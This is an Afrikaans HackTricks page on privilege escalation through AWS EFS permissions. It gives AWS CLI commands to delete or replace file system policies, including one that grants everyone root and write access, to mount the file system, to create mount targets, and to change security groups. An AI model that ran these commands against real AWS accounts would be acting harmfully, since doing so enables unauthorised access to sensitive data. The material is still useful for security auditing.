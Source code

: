 # AWS - EFS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EFS

Meer **inligting oor EFS** in:

{{#ref}}
../aws-services/aws-efs-enum.md
{{#endref}}

Onthou dat jy om 'n EFS te monteer, in 'n subnetwerk moet wees waar die EFS blootgestel is en toegang daartoe moet hê (veiligheidsgroepe). As dit gebeur, sal jy dit standaard altyd kan monteer, maar as dit deur IAM-beleide beskerm word, moet jy die ekstra toestemmings hê wat hier genoem word om toegang te verkry.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Met enige van daardie toestemmings kan 'n aanvaller die **lêerstelselsbeleid** **verander** om jou **toegang** daartoe te gee, of om dit net te **verwyder** sodat die **standaardtoegang** toegestaan word.

Om die beleid te verwyder:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Om dit te verander:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Met hierdie toestemming sal 'n aanvaller in staat wees om die **EFS te monteer**. As die skryftoestemming nie standaard aan almal wat die EFS kan monteer gegee word nie, sal hy slegs **lees toegang** hê.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Die ekstra regte `elasticfilesystem:ClientRootAccess` en `elasticfilesystem:ClientWrite` kan gebruik word om **te skryf** binne die lêerstelsel nadat dit gemonteer is en om **toegang** tot daardie lêerstelsel **as root** te verkry.

**Potensiële Impak:** Indirekte privesc deur sensitiewe inligting in die lêerstelsel te lokaliseer.

### `elasticfilesystem:CreateMountTarget`

As jy 'n aanvaller is wat binne 'n **subnet** is waar **geen monteerdoel** van die EFS bestaan nie. Hy kan eenvoudig **een in sy subnet skep** met hierdie voorreg:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potensiële Impak:** Indirekte privesc deur sensitiewe inligting in die lêerstelsel te lokaliseer.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

In 'n scenario waar 'n aanvaller ontdek dat die EFS 'n mount target in sy subnetwerk het, maar **geen sekuriteitsgroep die verkeer toelaat nie**, kan hy eenvoudig **dit verander deur die geselekteerde sekuriteitsgroepe aan te pas**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potensiële Impak:** Indirekte privesc deur sensitiewe inligting in die lêerstelsel te lokaliseer.

{{#include ../../../banners/hacktricks-training.md}}
